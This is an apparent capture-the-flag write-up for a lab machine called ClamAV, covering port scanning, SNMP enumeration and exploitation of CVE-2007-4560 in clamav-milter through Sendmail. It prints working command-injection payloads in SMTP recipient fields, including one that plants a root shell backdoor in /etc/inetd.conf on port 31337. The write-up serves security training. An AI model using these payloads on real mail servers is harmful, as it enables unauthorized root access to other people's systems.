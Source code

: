 # ClamAV
### Enumeration
We have a number of open ports:

```
# Nmap 7.92 scan initiated Sun Mar 27 17:33:58 2022 as: nmap -sV -p- -oN tcp.out 192.168.52.42
Nmap scan report for 192.168.52.42
Host is up (0.00037s latency).
Not shown: 65528 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
25/tcp    open  smtp        Sendmail 8.13.4/8.13.4/Debian-3sarge3
80/tcp    open  http        Apache httpd 1.3.33 ((Debian GNU/Linux))
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
199/tcp   open  smux        Linux SNMP multiplexer
445/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
60000/tcp open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
```

We check the webserver. There's a binary encoded message that says `ifyoudontpwnmeuran00b`. I fuzzed the path but found nothing other than a `/doc` route that was gave a 403.

Then I ran `smpmap`, but there wasn't anything unusual and we had no access as an anonymous user anyway.

We're able to connect to the SMTP server and send mail. There are some CVEs for Sendmail v8.13.4 but nothing I could get to work.

We see `smux` on port 199, but no SNMP port. However, SNMP can run on UDP, so it's worth running `snmp-check` in case:

```shell-session
$ snmp-check 192.168.52.42

...
3783                  runnable              clamav-milter         /usr/local/sbin/clamav-milter  --black-hole-mode -l -o -q /var/run/clamav/clamav-milter.ctl
...
```

### Foothold
We see that `clamav-milter` is running in blackhole mode. We note that the machine is called ClamAV, so let's google for possible related exploits. We discover a [vulnerability](https://github.com/natrix-fork/exploit-database/blob/master/exploits/multiple/remote/4761.pl) that will offer RCE: __CVE-2007-4560__.

We can execute the exploit by using the below sequence of commands (one command per line) with the SMTP server. Note, we first test with ping since this is a blind injection and we want to be sure we've got the correct syntax before trying a reverse shell.

```smtp
ehlo you
mail from: <>
rcpt to: <nobody+"|ping -c 2 192.168.52.200"@localhost>
data
.
```

Below is a trace of the exploit.

```shell-session
$ nc -nv 192.168.52.42 25
(UNKNOWN) [192.168.52.42] 25 (smtp) open
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Sun, 27 Mar 2022 21:31:35 -0400; (No UCE/UBE) logging access from: [192.168.52.200](FAIL)-[192.168.52.200]
ehlo you
250-localhost.localdomain Hello [192.168.52.200], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
mail from: <>
250 2.1.0 <>... Sender ok
rcpt to: <nobody+"|ping -c 2 192.168.52.200"@localhost>              
250 2.1.5 <nobody+"|ping -c 2 192.168.52.200"@localhost>... Recipient ok
data
354 Enter mail, end with "." on a line by itself
.
250 2.0.0 22S1VZ2e004005 Message accepted for delivery
```

Locally (we start tcpdump before we perform the exploit), we see:

```shell-session
$ sudo tcpdump -i eth0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
17:32:45.244251 IP 192.168.52.42 > 192.168.52.200: ICMP echo request, id 43279, seq 1, length 64
17:32:45.244269 IP 192.168.52.200 > 192.168.52.42: ICMP echo reply, id 43279, seq 1, length 64
17:32:46.244017 IP 192.168.52.42 > 192.168.52.200: ICMP echo request, id 43279, seq 2, length 64
17:32:46.244035 IP 192.168.52.200 > 192.168.52.42: ICMP echo reply, id 43279, seq 2, length 64
```

If we check searchsploit for ClamAV, we find an [exploit](https://www.exploit-db.com/exploits/4761) for this vulnerability which uses the following SMTP commands:

```
mail from: <>
rcpt to: <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf"@localhost>
rcpt to: <nobody+"|/etc/init.d/inetd restart"@localhost>
data
.
```

Now if we `nc -nv 192.168.52.42 31337`, we have a root shell.